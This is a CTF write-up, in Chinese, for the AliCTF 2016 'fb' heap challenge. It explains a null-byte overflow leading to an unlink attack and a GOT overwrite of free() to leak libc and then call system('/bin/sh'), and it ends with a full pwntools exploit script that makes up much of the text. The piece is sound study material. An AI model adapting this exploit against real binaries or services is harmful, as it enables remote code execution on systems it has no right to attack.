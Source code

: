 title: AliCTF 2016 fb writeup

date: 2016/06/07 20:33:00

---

一道堆中的null byte溢出题

程序用连续两个8 bytes变量分别存储分配的堆指针和其size，然后将这样的结构体以数组的形式存储在全局变量区0x6020C0。主要逻辑就是每次新建一个message的时候，从0x6020C0开始找size为0的地方，之后调用malloc分配目标大小存储堆指针，删除的时候会先清size为0再调用free()释放内存

<!--more-->

由于读取输入的时候会在最后再添加'\x00'：
```
.text:00000000004008E4                 cdqe
.text:00000000004008E6                 lea     rdx, [rax-1]
.text:00000000004008EA                 mov     rax, [rbp+var_18]
.text:00000000004008EE                 add     rax, rdx
.text:00000000004008F1                 mov     byte ptr [rax], 0
.text:00000000004008F4                 mov     eax, [rbp+var_8]
.text:00000000004008F7                 sub     eax, 1
```

所以可以构造payload溢出下一块chunk的size中的prev_inuse位，伪造prevsize字段，触发free()向前合并，就可以导致unlink使用我们伪造的fd和bk指针改写当前chunk的堆指针，使其指向0x6020C8（一开始忘了堆的对齐是加8 bytes再对齐，结果怎么也溢不出来...）

之后再编辑被修改过的堆指针就可以直接修改全局变量区了，由于只开了Partial级别的RELRO：

```
CANARY    : ENABLED
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```
所以可以考虑劫持free()的GOT到库中的system()，然后再有一个/bin/sh写在chunk中就可以拿shell了，在这之前得先泄漏一下库的地址过掉ASLR，所以先把free的GOT劫持到puts的PLT上，泄漏一下read()的地址，这里可以用[libc-database][1]这个工具来查找远程库的版本（但是不知道为什么我本地的库版本查不出来，只能手动查偏移），因为ASLR不会影响低12位的地址

然后泄漏出来算下偏移就可以调用system()了



Exploit:

```python
# -*- coding: utf-8 -*-
from pwn import *

io=process('./fb')
# io = remote("114.55.103.213",9733)

SIZE=0xf8
PLT_puts=0x4006C0
GOT_free=0x602018
GOT_read=0x602040
FD=0x6020C8
BK=0x6020D0

def init(size):
	io.recvuntil('Choice:')
	io.sendline('1')
	io.recvuntil('length:')
	io.sendline(str(size))
	io.recvuntil('Done~')

def edit(index,content):
	io.recvuntil('Choice:')
	io.sendline('2')
	io.recvuntil('index:')
	io.sendline(str(index))
	io.recvuntil('content:')
	io.sendline(str(content))
	io.recvuntil('Done~')

def delete(index):
	io.recvuntil('Choice:')
	io.sendline('3')
	io.recvuntil('index:')
	io.sendline(str(index))
	io.recvuntil('Done~')

def leak(dst):
	edit(1,p64(dst)+p64(SIZE)[:-1])
	io.recvuntil('Choice:')
	io.sendline('3')
	io.recvuntil('index:')
	io.sendline('0')
	leakmem = io.recvuntil("Done~")[:-6]
	return str(leakmem)

def main():

	init(SIZE)
	init(SIZE)
	init(SIZE)
	init(SIZE)
	init(SIZE)

	payload=p64(0xf1)+p64(0xf1)+p64(FD)+p64(BK)+'A'*0xd0+p64(0xf0)
	# overflow null byte
	edit(2,payload)
        # gdb.attach(io,execute=("b *%s"%(0x400CCF)))
	delete(3)
        
	payload2=p64(SIZE)+p64(0x6020C0)+p64(SIZE)+p64(GOT_free)+p64(SIZE)
	edit(2,payload2)

	# modify GOT entry of free to PLT entry of puts
	# use [:1] to prevent \x00 from causing damage
	edit(2,p64(PLT_puts)[:-1])

	# leak read_addr
	read_addr=u64(leak(GOT_read).ljust(8,'\x00'))
	print "read_addr: "+str(hex(read_addr))


	system_addr=read_addr-0x980C0
	# system_addr= read_addr-0xeb6a0 +0x46590
	
	# modify free to system
	edit(2,p64(system_addr)[:-1])
	edit(4,"/bin/sh")
	
	# now get shell
	io.recvuntil('Choice:')
	io.sendline('3')
	io.recvuntil('index:')
	io.sendline('4')

	io.interactive()

main()


```


[1]: https://github.com/niklasb/libc-database
